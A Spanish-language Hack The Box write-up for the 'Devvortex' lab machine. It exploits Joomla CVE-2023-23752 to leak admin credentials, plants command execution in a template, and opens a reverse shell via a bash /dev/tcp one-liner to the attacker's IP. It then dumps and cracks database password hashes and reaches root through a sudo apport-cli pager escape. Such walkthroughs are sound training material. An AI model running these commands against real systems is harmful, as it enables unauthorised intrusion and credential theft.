






## Información Básica

### Técnicas vistas

- Subdomain Enumeration
- Abusing Joomla
- Joomla Exploitation (CVE-2023-23752)
- Customizing administration template to achieve RCE
- Database Enumeration (User Pivoting)
- Abusing sudoers privilege (apport-cli) [Privilege Escalation]

### Preparación

- eWPT

---

## Reconocimiento

### Nmap

Iniciaremos el escaneo de **Nmap** con la siguiente línea de comandos:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.34.48 -oG nmap/allPorts
```

```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

Ahora con la función **extractPorts** (_Función de S4vitar_), extraeremos los puertos abiertos y nos los copiaremos al clipboard para hacer un escaneo más profundo:

```bash
nmap -sVC -p22,80 10.129.34.48 -oN nmap/targeted
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx
|_http-title: Did not follow redirect to http://2million.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## devvortex.htb


Podemos ver una web normal, nada raro, por lo que haremos fuzzing de subdominios.

## Subdomain fuzzing

Encontramos lo siguiente con la herramienta **ffuf**:

```bash
❯ ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://devvortex.htb/ -H "Host: FUZZ.devvortex.htb" --fc 302

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://devvortex.htb/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.devvortex.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 302
________________________________________________

dev                     [Status: 200, Size: 23221, Words: 5081, Lines: 502, Duration: 315ms]
:: Progress: [4989/4989] :: Job [1/1] :: 242 req/sec :: Duration: [0:00:17] :: Errors: 0 ::
```

## dev.devvortex.htb



## Whatweb

Vamos a usar la herramienta **whatweb** para ver que tecnologías y frameworks tenemos detrás de estos 2 dominios:

```bash
❯ whatweb http://dev.devvortex.htb
http://dev.devvortex.htb [200 OK] Bootstrap, Cookies[1daf6e3366587cf9ab315f8ef3b5ed78], Country[RESERVED][ZZ], Email[contact@devvortex.htb,contact@example.com,info@Devvortex.htb,info@devvortex.htb], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], HttpOnly[1daf6e3366587cf9ab315f8ef3b5ed78], IP[10.129.34.48], Lightbox, Script, Title[Devvortex], UncommonHeaders[referrer-policy,cross-origin-opener-policy], X-Frame-Options[SAMEORIGIN], nginx[1.18.0]
❯ whatweb http://devvortex.htb
http://devvortex.htb [200 OK] Bootstrap, Country[RESERVED][ZZ], Email[info@DevVortex.htb], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.129.34.48], JQuery[3.4.1], Script[text/javascript], Title[DevVortex], X-UA-Compatible[IE=edge], nginx[1.18.0]
```

## robots.txt

Si vemos el archivo `robots.txt` de `dev.devvortex.htb` vemos la siguiente ruta:

```bash title="robots.txt"
# If the Joomla site is installed within a folder
# eg www.example.com/joomla/ then the robots.txt file
# MUST be moved to the site root
# eg www.example.com/robots.txt
# AND the joomla folder name MUST be prefixed to all of the
# paths.
# eg the Disallow rule for the /administrator/ folder MUST
# be changed to read
# Disallow: /joomla/administrator/
#
# For more information about the robots.txt standard, see:
# https://www.robotstxt.org/orig.html

User-agent: *
Disallow: /administrator/
Disallow: /api/
Disallow: /bin/
Disallow: /cache/
Disallow: /cli/
Disallow: /components/
Disallow: /includes/
Disallow: /installation/
Disallow: /language/
Disallow: /layouts/
Disallow: /libraries/
Disallow: /logs/
Disallow: /modules/
Disallow: /plugins/
Disallow: /tmp/
```

Una ruta administrator y por supuesto **Joomla** corriendo por detrás:



Investigando dónde podía encontrar la versión de **Joomla** ya que no la encontraba, llegué a esta ruta:

```xml title="/administrator/manifests/files/joomla.xml"
<?xml version="1.0" encoding="UTF-8"?>
<extension type="file" method="upgrade">
	<name>files_joomla</name>
	<author>Joomla! Project</author>
	<authorEmail>admin@joomla.org</authorEmail>
	<authorUrl>www.joomla.org</authorUrl>
	<copyright>(C) 2019 Open Source Matters, Inc.</copyright>
	<license>GNU General Public License version 2 or later; see LICENSE.txt</license>
	<version>4.2.6</version>
	<creationDate>2022-12</creationDate>
	<description>FILES_JOOMLA_XML_DESCRIPTION</description>

	<scriptfile>administrator/components/com_admin/script.php</scriptfile>

	<update>
		<schemas>
			<schemapath type="mysql">administrator/components/com_admin/sql/updates/mysql</schemapath>
			<schemapath type="postgresql">administrator/components/com_admin/sql/updates/postgresql</schemapath>
		</schemas>
	</update>

	<fileset>
		<files>
			<folder>administrator</folder>
			<folder>api</folder>
			<folder>cache</folder>
			<folder>cli</folder>
			<folder>components</folder>
			<folder>images</folder>
			<folder>includes</folder>
			<folder>language</folder>
			<folder>layouts</folder>
			<folder>libraries</folder>
			<folder>media</folder>
			<folder>modules</folder>
			<folder>plugins</folder>
			<folder>templates</folder>
			<folder>tmp</folder>
			<file>htaccess.txt</file>
			<file>web.config.txt</file>
			<file>LICENSE.txt</file>
			<file>README.txt</file>
			<file>index.php</file>
		</files>
	</fileset>

	<updateservers>
		<server name="Joomla! Core" type="collection">https://update.joomla.org/core/list.xml</server>
	</updateservers>
</extension>
```

# Explotación

Tenemos la `4.2.6`. Buscando encontramos que tiene un **CVE-2023-23752** y además encontramos un [PoC](https://github.com/K3ysTr0K3R/CVE-2023-23752-EXPLOIT):

```bash
❯ python3 CVE-2023-23752.py -u http://dev.devvortex.htb
┏┓┓┏┏┓  ┏┓┏┓┏┓┏┓  ┏┓┏┓━┓┏━┏┓
┃ ┃┃┣ ━━┏┛┃┫┏┛ ┫━━┏┛ ┫ ┃┗┓┏┛
┗┛┗┛┗┛  ┗━┗┛┗━┗┛  ┗━┗┛ ╹┗┛┗━
Coded By: K3ysTr0K3R --> Hug me ʕっ•ᴥ•ʔっ
Updated By: muhammedikbalyildiz

[*] Checking if target is vulnerable
[+] Target is vulnerable
[*] Launching exploit against: http://dev.devvortex.htb
---------------------------------------------------------------------------------------------------------------
[*] Checking if target is vulnerable for usernames at path: /api/index.php/v1/users?public=true
[+] Target is vulnerable for usernames
[+] Gathering user(s) for: http://dev.devvortex.htb
[+] Name: lewis
[+] Username: lewis
[+] Email: lewis@devvortex.htb
[+] Group: Super Users
[+] Name: logan paul
[+] Username: logan
[+] Email: logan@devvortex.htb
[+] Group: Registered
---------------------------------------------------------------------------------------------------------------
[*] Checking if target is vulnerable for credentials at path: /api/index.php/v1/config/application?public=true
[+] Target is vulnerable for credentials
[+] Gathering credential(s) for: http://dev.devvortex.htb
[+] User: lewis
[+] Password: P4ntherg0t1n5r3c0n##
```

En el propio script nos pone lo que está haciendo, obtenemos las credenciales `lewis:P4ntherg0t1n5r3c0n##`

## Joomla Admin Panel



Vamos a intentar obtener una reverse shell o al menos poder ejecutar comandos. Intentando escribir código de las plantillas, en `index.php` no tenemos permisos, pero en `error.php` si:



### RCE

Vamos a hacer que en la página de error, ejecute comandos mediante el parámetro `cmd` añadiendo el siguiente código:



Y probándolo:



Vamos a lanzarnos una reverse shell con el comando `bash -c "bash -i >& /dev/tcp/10.10.15.89/8888 0>&1"`:

```bash
❯ nc -lvnp 8888
listening on [any] 8888 ...
connect to [10.10.15.89] from (UNKNOWN) [10.129.34.48] 46700
bash: cannot set terminal process group (821): Inappropriate ioctl for device
bash: no job control in this shell
www-data@devvortex:~/dev.devvortex.htb$ whoami
www-data
```

# Escalada de privilegios

## www-data

Encontramos en el mismo directorio el `configuration.php` que expone credenciales de la base de datos:

```php
www-data@devvortex:~/dev.devvortex.htb$ cat configuration.php 
<?php
class JConfig {
	public $offline = false;
	public $offline_message = 'This site is down for maintenance.<br>Please check back again soon.';
	public $display_offline_message = 1;
	public $offline_image = '';
	public $sitename = 'Development';
	public $editor = 'tinymce';
	public $captcha = '0';
	public $list_limit = 20;
	public $access = 1;
	public $debug = false;
	public $debug_lang = false;
	public $debug_lang_const = true;
	public $dbtype = 'mysqli';
	public $host = 'localhost';
	public $user = 'lewis';
	public $password = 'P4ntherg0t1n5r3c0n##';
	public $db = 'joomla';
	public $dbprefix = 'sd4fg_';
	public $dbencryption = 0;
	public $dbsslverifyservercert = false;
	public $dbsslkey = '';
	public $dbsslcert = '';
	public $dbsslca = '';
	public $dbsslcipher = '';
	public $force_ssl = 0;
	public $live_site = '';
	public $secret = 'ZI7zLTbaGKliS9gq';
	public $gzip = false;
	public $error_reporting = 'default';
	public $helpurl = 'https://help.joomla.org/proxy?keyref=Help{major}{minor}:{keyref}&lang={langcode}';
	public $offset = 'UTC';
	public $mailonline = true;
	public $mailer = 'mail';
	public $mailfrom = 'lewis@devvortex.htb';
	public $fromname = 'Development';
	public $sendmail = '/usr/sbin/sendmail';
	public $smtpauth = false;
	public $smtpuser = '';
	public $smtppass = '';
	public $smtphost = 'localhost';
	public $smtpsecure = 'none';
	public $smtpport = 25;
	public $caching = 0;
	public $cache_handler = 'file';
	public $cachetime = 15;
	public $cache_platformprefix = false;
	public $MetaDesc = '';
	public $MetaAuthor = true;
	public $MetaVersion = false;
	public $robots = '';
	public $sef = true;
	public $sef_rewrite = false;
	public $sef_suffix = false;
	public $unicodeslugs = false;
	public $feed_limit = 10;
	public $feed_email = 'none';
	public $log_path = '/var/www/dev.devvortex.htb/administrator/logs';
	public $tmp_path = '/var/www/dev.devvortex.htb/tmp';
	public $lifetime = 15;
	public $session_handler = 'database';
	public $shared_session = false;
	public $session_metadata = true;
}
```

Vamos a conectarnos con el comando `mysql -u lewis -p'P4ntherg0t1n5r3c0n##' joomla`

```bash
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| joomla             |
| performance_schema |
+--------------------+
3 rows in set (0.00 sec)

mysql> show tableS;
+-------------------------------+
| Tables_in_joomla              |
+-------------------------------+
| sd4fg_action_log_config       |
| sd4fg_action_logs             |
| sd4fg_action_logs_extensions  |
| sd4fg_action_logs_users       |
| sd4fg_assets                  |
| sd4fg_associations            |
| sd4fg_banner_clients          |
| sd4fg_banner_tracks           |
| sd4fg_banners                 |
| sd4fg_categories              |
| sd4fg_contact_details         |
| sd4fg_content                 |
| sd4fg_content_frontpage       |
| sd4fg_content_rating          |
| sd4fg_content_types           |
| sd4fg_contentitem_tag_map     |
| sd4fg_extensions              |
| sd4fg_fields                  |
| sd4fg_fields_categories       |
| sd4fg_fields_groups           |
| sd4fg_fields_values           |
| sd4fg_finder_filters          |
| sd4fg_finder_links            |
| sd4fg_finder_links_terms      |
| sd4fg_finder_logging          |
| sd4fg_finder_taxonomy         |
| sd4fg_finder_taxonomy_map     |
| sd4fg_finder_terms            |
| sd4fg_finder_terms_common     |
| sd4fg_finder_tokens           |
| sd4fg_finder_tokens_aggregate |
| sd4fg_finder_types            |
| sd4fg_history                 |
| sd4fg_languages               |
| sd4fg_mail_templates          |
| sd4fg_menu                    |
| sd4fg_menu_types              |
| sd4fg_messages                |
| sd4fg_messages_cfg            |
| sd4fg_modules                 |
| sd4fg_modules_menu            |
| sd4fg_newsfeeds               |
| sd4fg_overrider               |
| sd4fg_postinstall_messages    |
| sd4fg_privacy_consents        |
| sd4fg_privacy_requests        |
| sd4fg_redirect_links          |
| sd4fg_scheduler_tasks         |
| sd4fg_schemas                 |
| sd4fg_session                 |
| sd4fg_tags                    |
| sd4fg_template_overrides      |
| sd4fg_template_styles         |
| sd4fg_ucm_base                |
| sd4fg_ucm_content             |
| sd4fg_update_sites            |
| sd4fg_update_sites_extensions |
| sd4fg_updates                 |
| sd4fg_user_keys               |
| sd4fg_user_mfa                |
| sd4fg_user_notes              |
| sd4fg_user_profiles           |
| sd4fg_user_usergroup_map      |
| sd4fg_usergroups              |
| sd4fg_users                   |
| sd4fg_viewlevels              |
| sd4fg_webauthn_credentials    |
| sd4fg_workflow_associations   |
| sd4fg_workflow_stages         |
| sd4fg_workflow_transitions    |
| sd4fg_workflows               |
+-------------------------------+
71 rows in set (0.00 sec)

mysql> describe sd4fg_users;
+---------------+---------------+------+-----+---------+----------------+
| Field         | Type          | Null | Key | Default | Extra          |
+---------------+---------------+------+-----+---------+----------------+
| id            | int           | NO   | PRI | NULL    | auto_increment |
| name          | varchar(400)  | NO   | MUL |         |                |
| username      | varchar(150)  | NO   | UNI |         |                |
| email         | varchar(100)  | NO   | MUL |         |                |
| password      | varchar(100)  | NO   |     |         |                |
| block         | tinyint       | NO   | MUL | 0       |                |
| sendEmail     | tinyint       | YES  |     | 0       |                |
| registerDate  | datetime      | NO   |     | NULL    |                |
| lastvisitDate | datetime      | YES  |     | NULL    |                |
| activation    | varchar(100)  | NO   |     |         |                |
| params        | text          | NO   |     | NULL    |                |
| lastResetTime | datetime      | YES  |     | NULL    |                |
| resetCount    | int           | NO   |     | 0       |                |
| otpKey        | varchar(1000) | NO   |     |         |                |
| otep          | varchar(1000) | NO   |     |         |                |
| requireReset  | tinyint       | NO   |     | 0       |                |
| authProvider  | varchar(100)  | NO   |     |         |                |
+---------------+---------------+------+-----+---------+----------------+
17 rows in set (0.00 sec)

mysql> select name,username,password from sd4fg_users;
+------------+----------+--------------------------------------------------------------+
| name       | username | password                                                     |
+------------+----------+--------------------------------------------------------------+
| lewis      | lewis    | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |
| logan paul | logan    | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |
+------------+----------+--------------------------------------------------------------+
2 rows in set (0.00 sec)
```

Vamos a crackear el hash usando **hashcat**:

```bash
❯ hashcat logan /usr/share/wordlists/rockyou.txt -m 3200 --show
$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12:tequieromucho
```

## logan

```bash
www-data@devvortex:~/dev.devvortex.htb$ su logan
Password: 
logan@devvortex:/var/www/dev.devvortex.htb$ cd $home
logan@devvortex:~$ cat user.txt 
3f918a6e5e11050033b1...
```

## Abusing sudoers

Vamos a ejecutar `sudo -l` para ver si tenemos algun privilegio como `root`:

```bash
logan@devvortex:~$ sudo -l
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```


```bash
logan@devvortex:~$ sudo /usr/bin/apport-cli
No pending crash reports. Try --help for more information.
logan@devvortex:~$ sudo /usr/bin/apport-cli --help
Usage: apport-cli [options] [symptom|pid|package|program path|.apport/.crash file]

Options:
  -h, --help            show this help message and exit
  -f, --file-bug        Start in bug filing mode. Requires --package and an
                        optional --pid, or just a --pid. If neither is given,
                        display a list of known symptoms. (Implied if a single
                        argument is given.)
  -w, --window          Click a window as a target for filing a problem
                        report.
  -u UPDATE_REPORT, --update-bug=UPDATE_REPORT
                        Start in bug updating mode. Can take an optional
                        --package.
  -s SYMPTOM, --symptom=SYMPTOM
                        File a bug report about a symptom. (Implied if symptom
                        name is given as only argument.)
  -p PACKAGE, --package=PACKAGE
                        Specify package name in --file-bug mode. This is
                        optional if a --pid is specified. (Implied if package
                        name is given as only argument.)
  -P PID, --pid=PID     Specify a running program in --file-bug mode. If this
                        is specified, the bug report will contain more
                        information.  (Implied if pid is given as only
                        argument.)
  --hanging             The provided pid is a hanging application.
  -c PATH, --crash-file=PATH
                        Report the crash from given .apport or .crash file
                        instead of the pending ones in /var/crash. (Implied if
                        file is given as only argument.)
  --save=PATH           In bug filing mode, save the collected information
                        into a file instead of reporting it. This file can
                        then be reported later on from a different machine.
  --tag=TAG             Add an extra tag to the report. Can be specified
                        multiple times.
  -v, --version         Print the Apport version number.
logan@devvortex:~$ ls -la /var/crash/
total 8
drwxrwxrwt  2 root root 4096 Jan 20  2021 .
drwxr-xr-x 13 root root 4096 Sep 12  2023 ..
logan@devvortex:~$ sudo /usr/bin/apport-cli -p coreutils
No pending crash reports. Try --help for more information.
logan@devvortex:~$ sudo /usr/bin/apport-cli /usr/bin/git

*** Collecting problem information

The collected information can be sent to the developers to improve the
application. This might take a few minutes.
..........................................

*** Send problem report to the developers?

After the problem report has been sent, please fill out the form in the
automatically opened web browser.

What would you like to do? Your options are:
  S: Send report (4.3 KB)
  V: View report
  K: Keep report file for sending later or copying to somewhere else
  I: Cancel and ignore future crashes of this program version
  C: Cancel
Please choose (S/V/K/I/C): v
```

Y simplemente ejecutamos una shell `!/bin/bash` en el paginador para conseguir **root**:

```bash
root@devvortex:/var/www/dev.devvortex.htb# whoami
root
root@devvortex:/var/www/dev.devvortex.htb# cat /root/root.txt 
5a1fe5b8af4e2a6cc7...
```

[Pwned!](https://labs.hackthebox.com/achievement/machine/1992274/577)

---
